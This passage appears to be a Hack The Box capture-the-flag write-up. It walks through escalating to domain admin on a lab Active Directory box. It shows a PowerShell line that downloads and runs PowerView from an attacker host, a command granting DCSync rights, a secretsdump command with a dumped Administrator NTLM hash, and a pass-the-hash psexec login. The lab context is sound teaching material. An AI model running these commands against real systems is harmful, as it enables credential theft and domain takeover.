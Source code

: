 The next is to abuse the _WriteDacl_ permissions via a **DCSync attack** and get full access to the domain.
This can be done with the **PowerSploit** tool **PowerView** and the _Add-DomainObjectAcl_ function:
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/PowerView.ps1')

$pass = ConvertTo-SecureString 'Pass1234' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\NewUser',$pass)

Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity NewUser -Rights DCSync
```

Our new user has now privileges to do a DCSync and _impacket-secretsdump_ command will dump all NTLM hashes from the box remotely:
```
impacket-secretsdump htb.local/NewUser:Pass1234@10.10.10.161
```
```
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
(...)
```

With a **Pass-the-Hash** attack, the hash of _Administrator_ can be used to login into the box via **PSexec**:
```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161
```

It works and access is granted on the box as _NT Authority\SYSTEM_!
